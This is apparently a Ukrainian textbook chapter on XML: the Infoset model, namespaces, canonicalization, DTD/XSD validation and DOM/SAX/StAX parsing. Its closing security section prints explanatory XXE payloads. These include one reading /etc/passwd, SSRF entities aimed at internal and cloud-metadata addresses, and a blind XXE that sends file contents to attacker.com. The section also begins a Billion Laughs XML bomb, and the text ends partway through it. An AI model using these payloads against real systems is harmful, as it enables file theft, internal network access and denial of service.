




# XML: дерево елементів, атрибути й простори імен

<preknowlist>
- [ASCII і UTF-8](root:sf-data/ascii-utf8) — байти, рядки, кодування тексту та валідація символів Юнікоду.
- [JSON: текстове подання об'єктів і масивів](root:sf-data/json-format) — текстова серіалізація структур та масивів у веб-системах.
- [Самоописовий формат: схема всередині файлу](root:sf-data/self-describing-format) — перенесення схеми типів та метаданих разом із даними.
</preknowlist>

Коли дві незалежні комп'ютерні системи обмінюються даними через мережу, найпростіші табличні формати на зразок CSV або позиційних рядків фіксованої довжини миттєво ламаються, щойно інформація набуває ієрархічної вкладеності або містить необов'язкові поля змінної довжини. Спроба закодувати замовлення інтернет-магазину, де один клієнт має три різні адреси доставки, довільний перелік із десятків товарів, у кожного з яких є власний набір технічних характеристик, знижок та коментарів із типографічною розміткою, у пласкому рядку роздільників перетворюється на нечитабельний лабіринт екранувань.

Для розв'язання цієї проблеми в комп'ютерній інженерії виникли формати ієрархічного розмічання, серед яких центральне історичне та системне місце посідає **XML (англ. *Extensible Markup Language*)**. Створений консорціумом W3C у 1996–1998 роках як спрощення надмірно складного стандарту SGML, XML надав універсальний синтаксис для представлення довільних деревоподібних структур даних у текстовому вигляді, придатному як для читання людиною, так і для детермінованого синтаксичного аналізу програмами.

Історію того, як інженери вилучили 80% заплутаних правил SGML заради створення суворого стандарту з драконівською обробкою синтаксичних помилок, детально викладено у вставці [📜 Від моноліту SGML до спартанського XML](root:sf-data/xml-markup/hist-sgml-to-xml.md).

## Модель даних: W3C XML Information Set (Infoset)

Поширена помилка полягає у сприйнятті XML як простого набору відкривальних та закривальних тегів, записаних у текстовому файлі на диску. Насправді текст є лише конкретною серіалізацією (байтовим поданням). З точки зору архітектури програмного забезпечення XML — це абстрактна модель даних, стандартизована консорціумом W3C під назвою **XML Information Set (Infoset)**.

Модель Infoset визначає структуру документа як ієрархічний граф, складений з одинадцяти типів **інформаційних елементів (англ. *Information Items*)**. Синтаксичний аналізатор (парсер) зчитує вхідний потік байтів, перевіряє його на відповідність синтаксичним правилам і будує в пам'яті або транслює у вихідний потік саме ці абстрактні сутності.


*Трансляція синтаксичного потоку байтів в абстрактне дерево інформаційних елементів W3C XML Infoset*

Ключовими інформаційними елементами моделі Infoset є:

1. **Document Information Item (Елемент документа):**
   Єдиний корінь дерева всього документа. Він не відповідає жодному окремому тегу, а представляє весь документ як цілісність. Його найважливіша властивість — `[document element]`, яка вказує на єдиний головний кореневий тег (наприклад, `<catalog>`). Окрім цього, він містить інформацію про кодування символів (`[character encoding scheme]`) та посилання на декларацію типу документа.

2. **Element Information Item (Елемент):**
   Основна структурна одиниця дерева, породжена парою тегів `<name>...</name>` або самозакривальним тегом `<name/>`. Кожен такий елемент має:
   - `[local name]` — локальну назву тегу (наприклад, `"item"`);
   - `[namespace name]` — глобальний URI простору імен, до якого він належить;
   - `[children]` — упорядкований список дочірніх інформаційних елементів (інших елементів, символів тексту, коментарів);
   - `[attributes]` — невпорядковану множину інформаційних елементів атрибутів;
   - `[in-scope namespaces]` — карту просторів імен, дійсних для поточного вузла.

3. **Attribute Information Item (Атрибут):**
   Пара «ключ-значення», записана всередині відкривального тегу (наприклад, `sku="A-102"`). Важливою відмінністю від дочірніх елементів є те, що атрибути у моделі Infoset **не мають визначеного порядку**. Набір атрибутів `venue="Kyiv" id="1"` та `id="1" venue="Kyiv"` породжує абсолютно ідентичний набір інформаційних елементів. Значення атрибута нормалізується парсером: послідовності пробільних символів замінюються на пробіли, а кінцеві пробіли відсікаються згідно з правилами схеми.

4. **Character Information Item (Символ):**
   Кожна літера, цифра чи пробіл між тегами у моделі Infoset є окремим логічним символом із власним числовим кодом Юнікоду. Синтаксичні сутності (наприклад, `&lt;` для символу `<`, `&amp;` для `&`, `&quot;` для подвійних лапок) та блоки неекранованого тексту `<![CDATA[...]]>` парсер автоматично розгортає в звичайні символьні елементи.

5. **Comment та Processing Instruction Items:**
   Коментарі `<!-- ... -->` призначені для розробників і повністю ігноруються при валідації бізнес-даних. Інструкції обробки (англ. *Processing Instructions, PI*) записуються як `<?target data?>` і слугують для передачі специфічних директив зовнішнім обробникам (наприклад, `<?xml-stylesheet type="text/xsl" href="style.xsl"?>`).

## Синтаксичні інваріанти та коректна формованість

Щоб текстовий потік міг бути перетворений на валідне дерево Infoset, документ зобов'язаний задовольняти правила **коректної формованості (англ. *well-formedness*)**:

- **Єдиний корінь:** документ повинен мати рівно один кореневий елемент верхнього рівня. Текст, що містить два паралельні теги `<item/><item/>` без спільного предка, є невалідним XML.
- **Суворе парне закриття:** кожен відкривальний тег повинен мати відповідний закривальний тег із точним збігом регістру літер (`<Item>` не може закриватися як `</item>`). Теги не можуть перехрещуватися: конструкція `<b><i>текст</b></i>` є фатальною синтаксичною помилкою; коректний запис — `<b><i>текст</i></b>`.
- **Обов'язкові лапки для атрибутів:** значення будь-якого атрибута має бути взяте в подвійні або одинарні лапки (`status="active"`, а не `status=active`).
- **Екранування зарезервованих символів:** символи `<` та `&` заборонено вживати в чистому вигляді всередині тексту, оскільки вони сигналізують парсеру про початок тегу чи сутності. Замість них обов'язково використовуються стандартні сутності:
  - `&lt;` — менше (`<`);
  - `&gt;` — більше (`>`);
  - `&amp;` — амперсанд (`&`);
  - `&quot;` — подвійні лапки (`"`);
  - `&apos;` — одинарні лапки (апостроф `'`).

Окрім п'яти вбудованих сутностей, XML дозволяє вказувати довільні символи Юнікоду за їхніми числовими кодовими позиціями: десятковими `&#65;` (літера `A`) або шістнадцятковими `&#x20AC;` (символ євро `€`).

Якщо текстовий фрагмент містить велику кількість спецсимволів (наприклад, шматок вихідного коду програми або SQL-запит), його огортають у блок **CDATA (Character Data)**:

```xml
<script>
  <![CDATA[
    if (a < 10 && b > 20) {
        processOrder();
    }
  ]]>
</script>
```

Усередині секції `<![CDATA[...]]>` парсер сприймає символи `<` та `&` як звичайний текст, не намагаючись знайти в них відкриття нових тегів. Єдине обмеження CDATA — неможливість прямого вкладення символьної послідовності `]]>`, яка безумовно завершує блок.

## Елементи проти атрибутів: архітектурний вибір та ціна

Одним із перших питань, що постає перед проектувальником XML-схем, є вибір між збереженням значення в дочірньому елементі чи в атрибуті батьківського тегу. Розглянемо два варіанти подання однієї сутності:

:::tabs
```xml
<!-- Варіант А: використання атрибутів -->
<book id="978-0131103627" title="The C Programming Language" year="1988" price="45.00"/>
```
```xml
<!-- Варіант Б: використання дочірніх елементів -->
<book>
  <id>978-0131103627</id>
  <title>The C Programming Language</title>
  <year>1988</year>
  <price currency="USD">45.00</price>
</book>
```
:::

З точки зору абстрактного моделювання обидва варіанти здатні перенести інформацію, проте їхні технічні властивості принципово різняться на рівні синтаксичного аналізу, валідації та масштабованості.

### Порівняльний аналіз властивостей

```
Критерій                 Елементи (Elements)                 Атрибути (Attributes)
-----------------------------------------------------------------------------------------
Множинність              0, 1 або N повторень                Рівно 0 або 1 (унікальне ім'я)
Упорядкованість          Суворий порядок у документі         Невпорядкована множина
Вкладена структура       Можуть містити дочірні теги         Лише плаский скалярний рядок
Змішаний вміст           Підтримують текст + теги            Не підтримують
Накладні витрати байтів  Вищі (відкривальний + закривальний) Нижчі (одне ім'я на тег)
Потоковий парсинг        Вимагає обробки піддерева           Доступні одразу в start-tag
```

1. **Множинність (Multiplicity):**
   В одному тегу `<book>` атрибут `author` може з'явитися лише один раз: запис `<book author="Керніган" author="Річі">` є грубим порушенням стандарту XML і викличе фатальну помилку парсера. Якщо книга має кількох авторів, вибір дочірніх елементів є безальтернативним:
   ```xml
   <book>
     <author>Браян Керніган</author>
     <author>Денніс Річі</author>
   </book>
   ```

2. **Розширюваність та субструктура:**
   Атрибут не може мати власних внутрішніх атрибутів чи підпорядкованих тегів. Якщо спочатку ціна товару була простим числом `price="45.00"`, а згодом бізнес зажадав вказувати валюту, знижку та ставку податку, атрибут доведеться або парсити вручну нестандартним мікросинтаксисом (`price="45.00;USD;VAT=20"`), що ламає ідею декларативності, або мігрувати на дочірній елемент `<price currency="USD" vat="20">45.00</price>`.

3. **Змішаний вміст (Mixed Content):**
   У документоорієнтованих системах текст часто чергується з інлайн-тегами розмітки. Наприклад, в описі товару окремі слова мають бути виділені жирним шрифтом або посиланням:
   ```xml
   <description>
     Високоточний датчик температури для <b>промислових</b> умов. Деталі на <link href="/spec">сайті</link>.
   </description>
   ```
   Таку структуру в принципі неможливо вкласти в атрибут без попереднього екранування всього HTML-коду в сирий ескейп-рядок.

4. **Вплив на потоковий парсинг (Streaming Memory Footprint):**
   Коли потоковий аналізатор (SAX чи StAX) читає відкривальний тег, він передає застосунку повний список його атрибутів одночасно. Обробнику не потрібно чекати наступних токенів: ідентифікатори та метадані вузла (`id="101"`, `type="sensor"`) доступні миттєво в точці входу. Дочірні ж елементи змушують потоковий парсер створювати тимчасові змінні стану та накопичувати текст до закривального тегу.

> 🔧 **Інженерне правило вибору:**
> Атрибути слід використовувати для **атомарних метаданих**, що ідентифікують або модифікують сутність (ідентифікатори `id`, системні типи `type`, мовні мітки `xml:lang`, прапорці `enabled="true"`). Дочірні елементи слід обирати для **предметних даних**, які можуть повторюватися, мати власну складну структуру, містити довгий текст або змінюватися в наступних версіях протоколу.

## Простори імен (XML Namespaces): QName, URI та розв'язання конфліктів

У великих розподілених системах один XML-документ часто об'єднує дані, створені різними організаціями або за різними стандартами. Наприклад, електронний лист може одночасно містити бізнес-замовлення, фрагмент векторної графіки SVG із логотипом компанії та математичну формулу розрахунку податку мовою MathML.

Якщо обидва словники визначають тег `<title>` (в одному випадку це посада людини, а в іншому — заголовок графічного малюнка) або тег `<table>` (база даних проти HTML-таблиці), у синтаксичного аналізатора виникає непереборний конфлікт імен (Name Collision).

Для ізоляції словників консорціум W3C у 1999 році випустив специфікацію **XML Namespaces**.


*Область видимості префіксів, успадкування просторів імен та розв'язання QName в Expanded Names*

### Анатомія простору імен

Простір імен спирається на три фундаментальні концепції:

1. **Глобальний URI простору імен (Namespace URI):**
   Унікальний глобальний рядок ідентифікації (наприклад, `http://www.w3.org/2000/svg` або `urn:ietf:params:xml:ns:pidf`). Цей URI не зобов'язаний вказувати на реальну веб-сторінку в Інтернеті чи завантажувати будь-які файли через HTTP: він слугує виключно як унікальний глобальний ключ у таблиці імен парсера.

2. **Префікс простору імен (Prefix):**
   Короткий локальний псевдонім (аліас), який автор документа призначає для URI за допомогою спеціального атрибута `xmlns:prefix="URI"`:
   ```xml
   <root xmlns:svg="http://www.w3.org/2000/svg" xmlns:inv="http://store.org/inventory">
   ```

3. **Кваліфіковане ім'я (QName) та Розширене ім'я (Expanded Name):**
   У тексті документа розробник використовує скорочений запис **QName (Qualified Name)** у форматі `prefix:localPart` (наприклад, `svg:circle` або `inv:item`).
   Під час синтаксичного аналізу парсер транслює кожне QName у **Expanded Name (Розширене ім'я)**, яке являє собою кортеж із двох елементів:
   
   ```
   QName 'svg:circle'  →  { "http://www.w3.org/2000/svg", "circle" }
   QName 'inv:item'    →  { "http://store.org/inventory", "item" }
   ```
   
   Програмний код, що працює з XML, порівнює елементи виключно за їхніми розширеними іменами `{URI, LocalName}`, повністю ігноруючи те, який саме локальний префікс обрав автор файлу (`svg`, `s` чи `my_vector`).

### Дефолтний простір імен (Default Namespace) та його пастка

Якщо атрибут `xmlns="URI"` оголошено без двокрапки та префікса, він встановлює **дефолтний простір імен** для поточного елемента та всіх його нащадків. Усі безпрефіксні теги автоматично належать до цього простору:

```xml
<order xmlns="http://store.org/order">
  <!-- Елемент <item> належить до {http://store.org/order, item} -->
  <item id="104"/>
</order>
```

> ⚠️ **Критична пастка дефолтних просторів для атрибутів:**
> Дефолтний простір імен (`xmlns="..."`) **НІКОЛИ не поширюється на безпрефіксні атрибути**.
> В елементі `<order id="104">` сам тег `order` має розширене ім'я `{http://store.org/order, order}`, але його атрибут `id` належить до порожнього глобального простору `{null, id}` (або No Namespace).
> Щоб атрибут належав до конкретного простору імен, йому **обов'язково** повинен бути призначений явний префікс: `<order inv:id="104">`.

### Область видимості (Scoping) та затінення (Shadowing)

Оголошення просторів імен підпорядковуються лексичній області видимості дерева:
- Префікс, оголошений у кореневому тегу, діє для всього документа.
- Дочірній елемент може перевизначити дефолтний простір імен або прив'язати наявний префікс до іншого URI. Усі вкладені нащадки цього елемента бачитимуть уже нове значення (відбувається затінення, або shadowing).
- Якщо необхідно скасувати дію дефолтного простору для піддерева, використовується очищення `xmlns=""`.

### Вплив директиви `elementFormDefault` у схемах XSD

При проектуванні XSD-схем критично важливо розуміти поведінку прапорця `elementFormDefault`:
- **`elementFormDefault="qualified"` (рекомендований стандарт):** усі локальні дочірні елементи, визначені всередині складних типів (`complexType`), автоматично належать до цільового простору імен схеми (`targetNamespace`). У вхідному XML-документі всі ці теги повинні мати відповідний префікс або підпадати під дію дефолтного простору `xmlns="URI"`.
- **`elementFormDefault="unqualified"` (за замовчуванням в XSD 1.0):** лише глобальні кореневі елементи належать до `targetNamespace`, а всі вкладені локальні дочірні теги опиняються в порожньому просторі `{null, name}`. Це створює заплутану розмітку, де кореневий тег має префікс `<inv:catalog>`, а його дочірні елементи зобов'язані записуватися без префікса `<item>`, конфліктуючи з іншими словниками.

## Канонікалізація XML (C14N) та цифрові підписи

Оскільки XML є декларативним форматом, два текстові файли можуть виглядати по-різному, але бути абсолютно еквівалентними з точки зору моделі Infoset:

```xml
<!-- Файл 1 -->
<item id="1" sku="A" xmlns="http://store.org"/>

<!-- Файл 2 -->
<item xmlns="http://store.org" sku="A" id="1" ></item>
```

Для класичних алгоритмів хешування (SHA-256) ці два файли дадуть абсолютно різні контрольні суми, оскільки байти рядків різняться. Це унеможливлює накладання криптографічних цифрових підписів безпосередньо на сирий текст XML.

Для розв'язання цієї проблеми W3C розробив стандарт **XML Canonicalization (C14N)**. Алгоритм C14N транслює будь-який документ у єдину нормалізовану форму байтів:
1. Кодування жорстко перетворюється в UTF-8 без мітки порядку байтів (BOM).
2. Усі кінці рядків нормалізуються до одиночного байта `0x0A` (`\n`).
3. Порожні елементи `<tag/>` розгортаються в `<tag></tag>`.
4. Атрибути всередині тегів упорядковуються строго за абеткою за їхніми розширеними іменами `{URI, LocalName}`.
5. Оголошення просторів імен піднімаються вгору та очищаються від надлишкових дублікатів.
6. Усі значення атрибутів нормалізуються (екранування спецсимволів `&quot;`, `&amp;`, `&lt;`).

Лише після канонікалізації від нормалізованого потоку байтів обчислюється криптографічний хеш, який підписується приватним ключем за стандартом **XML-DSig (XML Digital Signature)**.

## Контракти та валідація схем: DTD проти XSD

Коректна формованість (well-formedness) гарантує лише те, що документ можна розібрати на вузли. Проте вона не відповідає на питання, чи містить замовлення обов'язкове поле ціни, чи є сума додатним числом і чи не перевищує дата поточний рік.

Для формальної верифікації бізнес-структури застосовують механізми валідації схем. Документ, який успішно пройшов перевірку схемою, називається **дійсним (англ. *valid*)**.

### DTD (Document Type Definition)

DTD веде свою історію від мови SGML і використовує власний синтаксис, відмінний від XML. DTD описує допустиму граматику елементів за допомогою регулярних виразів над іменами тегів:

```xml
<!DOCTYPE catalog [
  <!ELEMENT catalog (item+)>
  <!ELEMENT item (title, price, description?)>
  <!ELEMENT title (#PCDATA)>
  <!ELEMENT price (#PCDATA)>
  <!ELEMENT description (#PCDATA)>
  <!ATTLIST item
    sku CDATA #REQUIRED
    currency (UAH | USD | EUR) "UAH"
  >
  <!ENTITY copyright "© 2026 Technics Corp.">
  <!ENTITY % internalParams "INCLUDE">
]>
```

Оператори кардинальності у DTD повторюють класичні оператори регулярних виразів:
- `+` — одне або більше повторень (`item+`);
- `*` — нуль або більше повторень;
- `?` — нуль або одне входження (необов'язковий елемент);
- `,` — сувора послідовність елементів (`title, price`);
- `|` — альтернатива (або один елемент, або інший).

Окрім загальних сутностей (General Entities `&copyright;`), DTD підтримує **параметричні сутності (Parameter Entities `<!ENTITY % name "...">`)**, які використовуються виключно всередині самої граматики DTD як макроси для умовного включення блоків чи повторюваних списків атрибутів.

**Обмеження DTD:**
1. **Відсутність типізації даних:** усередині елементів DTD знає лише тип `#PCDATA` (Parsed Character Data, тобто довільний текст). Неможливо заборонити користувачеві записати в тег `<price>` рядок `"дуже дорого"` замість додатного числа `450.00`.
2. **Повна сліпота до просторів імен:** DTD сприймає рядок `svg:circle` як єдине неподільне ім'я з 10 символів, не розуміючи механіки префіксів та URI.
3. **Не-XML синтаксис:** для аналізу DTD потрібен окремий парсер граматики, що ускладнює інструментарій розробника.

### W3C XML Schema Definition (XSD)

Для подолання слабкостей DTD консорціум W3C у 2001 році випустив стандарт **XML Schema (XSD)**. Схема XSD сама є повноцінним XML-документом і надає потужну об'єктну систему типізації:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<xs:schema xmlns:xs="http://www.w3.org/2001/XMLSchema"
           targetNamespace="http://store.org/catalog"
           xmlns="http://store.org/catalog"
           elementFormDefault="qualified">

  <!-- Оголошення простого обмеженого типу для валюти -->
  <xs:simpleType name="CurrencyType">
    <xs:restriction base="xs:string">
      <xs:enumeration value="UAH"/>
      <xs:enumeration value="USD"/>
      <xs:enumeration value="EUR"/>
    </xs:restriction>
  </xs:simpleType>

  <!-- Оголошення типу для ціни з обмеженням додатного числа -->
  <xs:simpleType name="PriceValueType">
    <xs:restriction base="xs:decimal">
      <xs:minExclusive value="0.00"/>
      <xs:fractionDigits value="2"/>
    </xs:restriction>
  </xs:simpleType>

  <!-- Складний тип елемента item -->
  <xs:complexType name="ItemType">
    <xs:sequence>
      <xs:element name="title" type="xs:string"/>
      <xs:element name="price">
        <xs:complexType>
          <xs:simpleContent>
            <xs:extension base="PriceValueType">
              <xs:attribute name="currency" type="CurrencyType" use="required"/>
            </xs:extension>
          </xs:simpleContent>
        </xs:complexType>
      </xs:element>
    </xs:sequence>
    <xs:attribute name="sku" type="xs:string" use="required"/>
  </xs:complexType>

  <!-- Головний кореневий елемент -->
  <xs:element name="catalog">
    <xs:complexType>
      <xs:sequence>
        <xs:element name="item" type="ItemType" maxOccurs="unbounded"/>
      </xs:sequence>
    </xs:complexType>
  </xs:element>
</xs:schema>
```

XSD надає вбудовані примітивні типи (`xs:integer`, `xs:decimal`, `xs:dateTime`, `xs:boolean`), підтримку регулярних виразів (`xs:pattern`), фасети діапазонів (`xs:minInclusive`, `xs:maxInclusive`), успадкування типів через розширення (`xs:extension`) чи обмеження (`xs:restriction`) та повну інтеграцію з просторами імен через атрибут `targetNamespace`.

Під час валідації XSD-процесор створює розширений набір даних — **PSVI (Post-Schema-Validation Infoset)**, збагачуючи кожен інформаційний елемент дерева інформацією про його нативний тип даних, значення за замовчуванням та статус перевірки.

## Архітектури синтаксичного аналізу: DOM, SAX та StAX

Обробка XML-документів у пам'яті комп'ютера здійснюється трьома фундаментальними парадигмами, вибір між якими визначає швидкість роботи та споживання оперативної пам'яті програми.


*Архітектурні моделі синтаксичного аналізу XML: повний граф DOM, подієвий push-потік SAX та ітераційний pull-курсор StAX*

### 1. Document Object Model (DOM)

Модель DOM — це деревоподібний інтерфейс у пам'яті. Синтаксичний аналізатор повністю зчитує весь файл, будує в купі (heap) повний граф об'єктів для кожного елемента, атрибута і тексту, встановлює взаємні покажчики (`parentNode`, `firstChild`, `nextSibling`) і лише після цього повертає корінь об'єкта `Document` викликаючій програмі.

- **Переваги:** можливість довільної навігації в будь-якому напрямку (вгору до предків, вниз до дітей, вбік до сусідів), виконання запитів мовою XPath (`//item[price > 100]`), модифікація дерева на місці з наступною серіалізацією назад у файл.
- **Недоліки:** колосальні витрати оперативної пам'яті `O(N)`. Типова реалізація DOM у C++ чи Java споживає **у 5–10 разів більше пам'яті, ніж розмір самого файлу на диску**. Файл розміром 200 МБ потребує 1.5–2 ГБ оперативної пам'яті, що робить DOM непридатним для обробки великих потоків даних або вбудованих пристроїв.

### 2. Simple API for XML (SAX)

SAX — це потоковий аналізатор, заснований на **моделі проштовхування (Push Parsing)**. Парсер відкриває потік і сам керує циклом читання байтів. У міру розпізнавання синтаксичних одиниць він викликає відповідні колбеки зареєстрованого інтерфейсу `ContentHandler`: `startDocument()`, `startElement()`, `characters()`, `endElement()`.

- **Переваги:** константні витрати пам'яті `O(1)`. Парсер утримує в буфері лише кілька кілобайтів поточного фрагмента, що дозволяє легко обробляти файли розміром у десятки гігабайтів.
- **Недоліки:** інверсія керування (Inversion of Control). Оскільки цикл крутить сам парсер, клієнтський застосунок змушений вручну підтримувати складний кінцевий автомат (State Machine) і стек станів, щоб пам'ятати, всередині якого тегу він зараз перебуває. Зупинити процес або пропустити непотрібну гілку піддерева посеред читання вкрай важко без викидання винятків.

### 3. Streaming API for XML (StAX) / `XmlReader`

StAX — це сучасний потоковий аналізатор, заснований на **моделі витягування (Pull Parsing)**. На відміну від SAX, тут керування циклом знаходиться в руках самого прикладного коду. Застосунок тримає об'єкт курсора `reader` і сам викликає метод `reader.next()` або `reader.read()`, коли готовий обробити наступний токен.

- **Переваги:** константне споживання пам'яті `O(1)` у поєднанні з чистотою імперативного коду. Розробник може використовувати природні цикли `while`, створювати рекурсивні функції спуску для розбору складних піддерев та миттєво пропускати непотрібні гілки за допомогою методу `skipSubtree()`.
- **Нульове копіювання (Zero-Copy Parsing):** у високопродуктивних бібліотеках C/C++ (наприклад, `xmlTextReader` або PugiXML у режимі потокового завантаження) курсор повертає покажчики `const char*` або `std::string_view` безпосередньо у внутрішній вхідний буфер вводу-виводу. Застосунок читає імена тегів та значення атрибутів без жодної алокації динамічної пам'яті в купі (`malloc`/`new`), що забезпечує швидкість розбору понад 500 МБ/с на одне процесорне ядро.

Повний довідник інтерфейсних сигнатур, числових кодів подій та структур вузлів для всіх трьох моделей наведено у вставці [📋 Інтерфейсні контракти XML: Infoset, DOM, SAX та StAX](root:sf-data/xml-markup/api-xml-parser-contract.md).

Практичний приклад реалізації високопродуктивного безпечного pull-парсера мовами C, C++ та Python із замірами споживання пам'яті розібрано у вставці [⚙️ Потоковий розбір XML: робота з великими даними та захист від вразливостей](root:sf-data/xml-markup/proj-streaming-parser.md).

## Безпекові загрози в обробці XML: XXE та Billion Laughs

Через наявність механізмів макропідстановок (сутностей) та завантаження зовнішніх схем DTD незахищені XML-процесори становлять один із найнебезпечніших векторів атак на мережеві сервіси.


*Два класи вразливостей XML-парсерів: викрадення системних файлів через XXE та вичерпання пам'яті через експоненційну XML-бомбу*

### 1. XML External Entity (XXE) Injection

Вразливість XXE виникає тоді, коли парсер обробляє надіслане зловмисником оголошення `<!DOCTYPE>` зі спеціальним типом сутності `SYSTEM`:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<data>
  <user>&xxe;</user>
</data>
```

Коли парсер зустрічає посилання `&xxe;`, його внутрішній резольвер відкриває локальний файл операційної системи `/etc/passwd`, зчитує облікові записи користувачів і підставляє їх у тіло елемента `<user>`. Якщо система відображає отримані дані у відповіді, зловмисник отримує конфігураційні файли, приватні ключі або вихідний код програми.

Окрім прямого читання файлів, XXE дозволяє здійснювати атаки класу **Server-Side Request Forgery (SSRF)**: вказавши URL внутрішньої підмережі (`<!ENTITY xxe SYSTEM "http://192.168.1.10/admin">`), атакуючий змушує сервер виконувати HTTP-запити до ізольованих внутрішніх мікросервісів чи хмарних метаданих (AWS Metadata Endpoint `http://169.254.169.254/latest/meta-data/`).

У сценаріях, коли система не повертає текст розпарсеного XML у відповіді клієнту, застосовується техніка **Blind XXE (сліпий XXE)**. За допомогою вкладених параметричних сутностей зловмисник змушує сервер прочитати локальний файл, закодувати його вміст у URL-параметр та ініціювати вихідне мережеве звернення на контрольований сервер атакуючого через DNS або HTTP (out-of-band exfiltration):

```xml
<!DOCTYPE data [
  <!ENTITY % file SYSTEM "file:///etc/hostname">
  <!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://attacker.com/?data=%file;'>">
  %eval;
  %exfiltrate;
]>
```

### 2. Billion Laughs Attack (XML-бомба)

Атака «Мільярд сміхів» є класичним прикладом відмови в обслуговуванні (Denial of Service, DoS) через алгоритмічну складність вичерпання ресурсів пам'яті. Вона базується на каскадній рекурсії сутностей внутрішньої підмножини DTD:

```xml
<?xml version="1.0"?>
<!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
